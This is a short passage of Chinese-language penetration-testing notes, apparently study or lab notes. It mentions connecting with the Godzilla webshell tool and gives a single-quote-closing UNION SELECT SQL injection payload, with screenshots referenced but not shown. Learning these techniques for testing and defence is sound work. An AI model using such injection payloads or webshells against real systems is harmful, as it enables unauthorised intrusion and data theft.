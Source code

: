 

使用哥斯拉连接

![image-20240317161502796](../图片/image-20240317161502796.png)



### 闭合

#### 单引号闭合——字符型

```
' union select 1,2,3,4,5,6-- +
```

![image-20240318085457937](../图片/image-20240318085457937.png)

